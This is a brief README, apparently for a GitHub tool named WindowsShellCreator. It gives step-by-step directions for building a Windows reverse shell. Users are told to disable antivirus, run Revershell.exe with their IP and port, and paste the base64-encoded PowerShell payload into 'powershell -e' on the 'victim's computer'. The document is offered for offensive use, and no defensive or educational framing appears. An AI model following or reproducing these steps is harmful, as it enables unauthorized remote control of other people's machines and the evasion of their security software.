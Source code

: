 # WindowsShellCreator
### (Stable Release)

## How to Use ?
1. Disable AntiVirus Software
2. Download Zip File 
3. Extract File
4. Open CMD or Powershell as Administrator 
5. type "Revershell.exe -H '```your device ip```' -p '```Choose your port number```' -b64 '```y/n```'"
### Note- You must specify whether you want base64 encoding via the ``` -b64 ``` flag.

## How to use base64 encode script ?
#### -> Copy the base64 code and go to victim's computer and type``` powershell -e ```and paste the copied base64 script``` [e.g.powershell -e 'base64encode here'] ```
